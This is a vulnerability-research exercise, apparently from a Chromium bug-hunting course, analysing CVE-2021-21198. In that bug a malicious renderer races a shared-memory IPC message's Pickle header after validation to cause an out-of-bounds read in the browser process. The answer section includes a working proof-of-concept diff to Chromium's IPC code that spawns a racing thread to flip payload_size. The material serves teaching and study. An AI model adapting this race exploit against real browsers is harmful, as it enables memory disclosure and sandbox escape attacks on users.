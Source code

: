 # Exercise 6

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21198
I sugget you don't search any report about it to prevents get too much info like patch.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1184399

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard 983a7365ebe7fa934fb4660409105bae294d70a5
```



### Related code
```c++
// Typemapped such that arbitrarily large IPC::Message objects can be sent and
// received with minimal copying.
struct Message {
  mojo_base.mojom.BigBuffer buffer;
  array<mojo.native.SerializedHandle>? handles;
};
========================================
union BigBuffer {
  array<uint8> bytes;
  BigBufferSharedMemoryRegion shared_memory;
  bool invalid_buffer;
};
```
ipc/ipc_message_pipe_reader.cc
base/pickle.cc


tips: You just need to think how `shared_memory` can be used to breaking mojo.

### Do it
Do this exercise by yourself, If you find my answer have something wrong, please correct it.


---------

<details>
  <summary>My answer</summary>

  ```c++
// Typemapped such that arbitrarily large IPC::Message objects can be sent and
// received with minimal copying.
struct Message {
  mojo_base.mojom.BigBuffer buffer;       [1]
  array<mojo.native.SerializedHandle>? handles;
};
=======================================
union BigBuffer {
  array<uint8> bytes;
  BigBufferSharedMemoryRegion shared_memory;  [2]
  bool invalid_buffer;
};
  ```
  [1] | [2] `BigBuffer` is backed by an `array` of bytes when the message is **small**; but it's backed by `shared memory` if the message is **large**. This means that a malicious renderer can send legacy `IPC messages` backed by `shared memory`.

  ```c++
void MessagePipeReader::Receive(MessageView message_view) {
  if (!message_view.size()) {
    delegate_->OnBrokenDataReceived();
    return;
  }
  Message message(message_view.data(), message_view.size()); [3]
  if (!message.IsValid()) {
    delegate_->OnBrokenDataReceived();
    return;
  }
[ ... ]
  ```
  [3] `ipc::Message` inherits from `base::Pickle`
  ```c++
class IPC_MESSAGE_SUPPORT_EXPORT Message : public base::Pickle {
 public:
//[ ... ]
  // Initializes a message from a const block of data.  The data is not copied;
  // instead the data is merely referenced by this message.  Only const methods
  // should be used on the message when initialized this way.
  Message(const char* data, int data_len);
=============================================
Message::Message(const char* data, int data_len)
    : base::Pickle(data, data_len) {     [4]
  Init();
}
  ```
  The constructor of `Message` call `Pickle`'s constructor
  ```c++
Pickle::Pickle(const char* data, size_t data_len)
    : header_(reinterpret_cast<Header*>(const_cast<char*>(data))),
      header_size_(0),
      capacity_after_header_(kCapacityReadOnly),
      write_offset_(0) {
  if (data_len >= static_cast<int>(sizeof(Header)))     [5]
    header_size_ = data_len - header_->payload_size; 

  if (header_size_ > static_cast<unsigned int>(data_len))
    header_size_ = 0;
[ ... ]
  ```
  [5] after check `payload_size` at this point, we can chenge `payload_size` in Pickle's header by the other side which have the access of `shared_memory`

  Since `base::Pickle` expects to find a `header` at the start of the region, by changing the length field in that header after the checks in the `Pickle` constructor

  ```c++
PickleIterator::PickleIterator(const Pickle& pickle)
: payload_(pickle.payload()),
    read_index_(0),
    end_index_(pickle.payload_size()) {     [6]
}
===================================================
// This class provides facilities for basic binary value packing and unpacking.
//
// The Pickle's data has a header which contains the size of the Pickle's
// payload.  It can optionally support additional space in the header.  That
// space is controlled by the header_size parameter passed to the Pickle
// constructor.
//
class BASE_EXPORT Pickle {
 public:
 //[ ... ]
  // The payload is the pickle data immediately following the header.
  size_t payload_size() const {
    return header_ ? header_->payload_size : 0;    [7]
  }
  ```

  [6] ｜ [7] `PickleIterator`'s `end_index_ == header_->payload_size`, we can use it to oob read

  ```c++
// PickleIterator reads data from a Pickle. The Pickle object must remain valid
// while the PickleIterator object is in use.
class BASE_EXPORT PickleIterator {
 public:
  PickleIterator() : payload_(nullptr), read_index_(0), end_index_(0) {}
  explicit PickleIterator(const Pickle& pickle);

  // Methods for reading the payload of the Pickle. To read from the start of
  // the Pickle, create a PickleIterator from a Pickle. If successful, these
  // methods return true. Otherwise, false is returned to indicate that the
  // result could not be extracted. It is not possible to read from the iterator
  // after that.
  bool ReadBool(bool* result) WARN_UNUSED_RESULT;
  bool ReadInt(int* result) WARN_UNUSED_RESULT;
  bool ReadLong(long* result) WARN_UNUSED_RESULT;
  [ ... ]
  ```
  Set `PickleIterator.end_index_` to a huge num, we can get oob read by these Methods.

  **Poc**

  We can write code in source file

  The attached patch forces all legacy IPC messages sent by renderers to be sent as *shared memory*, and *creates a new thread* in each renderer that *flips the high bits of the payload_size* value for a short period after each message is sent; this has a "reasonable" chance of having valid values to pass through the checks, and then invalid values later on.
  ```diff
diff --git a/ipc/ipc_message_pipe_reader.cc b/ipc/ipc_message_pipe_reader.cc
index 6e7bf51b0e05..2d3b57e7a205 100644
--- a/ipc/ipc_message_pipe_reader.cc
+++ b/ipc/ipc_message_pipe_reader.cc
@@ -6,10 +6,13 @@
 
 #include <stdint.h>
 
+#include <iostream>
 #include <utility>
 
 #include "base/bind.h"
 #include "base/callback_helpers.h"
+#include "base/command_line.h"
+#include "base/debug/stack_trace.h"
 #include "base/location.h"
 #include "base/logging.h"
 #include "base/macros.h"
@@ -18,6 +21,13 @@
 #include "ipc/ipc_channel_mojo.h"
 #include "mojo/public/cpp/bindings/message.h"
 
+std::string GetProcessType() {
+  std::string type = base::CommandLine::ForCurrentProcess()->GetSwitchValueASCII("type");
+  if (type == "")
+    return "browser";
+  return type;
+}
+
 namespace IPC {
 namespace internal {
 
@@ -35,6 +45,10 @@ MessagePipeReader::MessagePipeReader(
   receiver_.set_disconnect_handler(
       base::BindOnce(&MessagePipeReader::OnPipeError, base::Unretained(this),
                      MOJO_RESULT_FAILED_PRECONDITION));
+  if (GetProcessType() == "renderer") {
+    race_thread_ = std::make_unique<base::Thread>("race_thread");
+    race_thread_->Start();
+  }
 }
 
 MessagePipeReader::~MessagePipeReader() {
@@ -49,6 +63,17 @@ void MessagePipeReader::Close() {
     receiver_.reset();
 }
 
+static void race_ipc_message(mojo::ScopedSharedBufferHandle shm_handle) {
+  auto mapping = shm_handle->Map(0x100);
+  fprintf(stderr, "racing\n");
+  volatile uint32_t* ptr = (volatile uint32_t*)mapping.get();
+  for (int i = 0; i < 0x80000; ++i) {
+    *ptr ^= 0x23230000;
+  }
+  *ptr ^= 0x23230000;
+  fprintf(stderr, "done racing\n");
+}
+
 bool MessagePipeReader::Send(std::unique_ptr<Message> message) {
   CHECK(message->IsValid());
   TRACE_EVENT_WITH_FLOW0("toplevel.flow", "MessagePipeReader::Send",
@@ -62,9 +87,27 @@ bool MessagePipeReader::Send(std::unique_ptr<Message> message) {
   if (!sender_)
     return false;
 
-  sender_->Receive(MessageView(*message, std::move(handles)));
-  DVLOG(4) << "Send " << message->type() << ": " << message->size();
-  return true;
+  if (GetProcessType() == "renderer") {
+    auto shm_handle = mojo::SharedBufferHandle::Create(message->size() > 0x1000 ? message->size() : 0x1000);
+    auto shm_handle_copy = shm_handle->Clone(mojo::SharedBufferHandle::AccessMode::READ_WRITE);
+
+    mojo_base::internal::BigBufferSharedMemoryRegion shm_region(std::move(shm_handle), message->size());
+    memcpy(shm_region.memory(), message->data(), message->size());
+    mojo_base::BigBufferView big_buffer_view;
+    big_buffer_view.SetSharedMemory(std::move(shm_region));
+
+    race_thread_->task_runner()->PostTask(FROM_HERE, 
+      base::BindOnce(race_ipc_message, std::move(shm_handle_copy)));
+
+    sender_->Receive(MessageView(std::move(big_buffer_view), std::move(handles)));
+
+    DVLOG(4) << "Send " << message->type() << ": " << message->size();
+    return true;
+  } else {
+    sender_->Receive(MessageView(*message, std::move(handles)));
+    DVLOG(4) << "Send " << message->type() << ": " << message->size();
+    return true;
+  }
 }
 
 void MessagePipeReader::GetRemoteInterface(
diff --git a/ipc/ipc_message_pipe_reader.h b/ipc/ipc_message_pipe_reader.h
index b7f73d2a9aee..6c26987dadcd 100644
--- a/ipc/ipc_message_pipe_reader.h
+++ b/ipc/ipc_message_pipe_reader.h
@@ -15,6 +15,7 @@
 #include "base/component_export.h"
 #include "base/macros.h"
 #include "base/process/process_handle.h"
+#include "base/threading/thread.h"
 #include "base/threading/thread_checker.h"
 #include "ipc/ipc.mojom.h"
 #include "ipc/ipc_message.h"
@@ -106,6 +107,9 @@ class COMPONENT_EXPORT(IPC) MessagePipeReader : public mojom::Channel {
   Delegate* delegate_;
   mojo::AssociatedRemote<mojom::Channel> sender_;
   mojo::AssociatedReceiver<mojom::Channel> receiver_;
+
+  std::unique_ptr<base::Thread> race_thread_;
+
   base::ThreadChecker thread_checker_;
 
   DISALLOW_COPY_AND_ASSIGN(MessagePipeReader);

  ```


</details>

--------
